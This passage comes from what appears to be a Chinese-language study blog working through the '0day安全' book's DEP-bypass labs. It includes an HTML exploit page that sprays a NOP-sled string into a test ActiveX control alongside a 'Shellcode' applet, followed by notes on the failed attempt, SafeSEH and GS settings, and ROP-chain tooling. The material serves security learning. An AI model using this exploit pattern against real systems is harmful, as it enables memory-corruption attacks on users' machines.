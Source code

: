 ```html
<html>  
<body>  
  <applet code=Shellcode.class width=300 height=50></applet>
  <script>alert("begin");</script>
  <object classid="clsid:03473293-EB7D-4973-83C8-D5F9D448072C" id="test"></object>  
  <script>
	var s = "\u9090";
	while (s.length < 54) {
		s += "\u9090";
	}
	s +="\u04FC\u1001";
	test.test(s); 
  </script>  
</body>  
</html>
```

这个也没有成功。后来我参考[0day安全软件漏洞分析实战记录-第一部分](http://www.wooy0ung.top/2017/10/01/0day安全软件漏洞分析实战记录-第一部分/#利用-NET挑战DEP)觉得可能是要把这些东西放在IIS的Web目录中才行，于是装了IIS5，可仍然不行。前一个小节依然无法找到DEP_NETDLL，本小节则是能够在OD中转到Shellcode去执行，但是不弹窗。直接打开网页只会在左下角显示`小程序Shellcode started`，但是依旧不弹窗。

先这样。

## 疑问

在完成“利用Ret2Libc挑战DEP”部分后，我忽然意识到，我在该部分的所有实验都是在VS 2008内完成的，并非前面提到的“VC 6”。也就是说，我默认开启了SafeSEH。为了确认，我使用`dumpbin`查看，发现的确有SafeSEH：

![Bildschirmfoto 2018-10-02 um 9.41.59 AM.png]({{ site.url }}/images/0day/ED6E8931FA8D20CC2D3433D2B0F18ACF.png)

但是GS的确是关闭的。那么为什么我开启SafeSEH依然能exploit成功呢？

一个猜测是：由于关闭了GS，而我在操作过程中也没有触发其他异常，所以并没有触发SEH，同理也就没有触发SafeSEH机制。

我后来是怎么意识到自己之前用的是VS 2008呢？

因为后来我想反过头来去完成第十一章的Flash Player实验，结果打开VC 6后发现这个IDE是没有代码高亮的，而我昨天做过的实验中使用的IDE明明有代码高亮。

## 总结

本章学习了大量的构造栈帧的技巧。防御技术总在推陈出新，绕过技术总会过时，但是这些构造shellcode的技术是不会过时的，包括如何移动ESP，如何修复EBP，如何动态获取shellcode的地址等等。还是要反复思考、练习才能掌握。

另外，在面对复杂的shellcode布置时，作者采用了步步为营的方法，而不是一蹴而就。写一点调试一点，这样可以避免大错。这是一个经验。

我偶然在[通关栈溢出（四）：缓冲区溢出的防御技术及绕过](http://imlzq.com/2018/08/11/stackoverflow_protection/)一文中发现了利用[mona插件](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)自动构造绕过DEP的ROP链，很有意思。
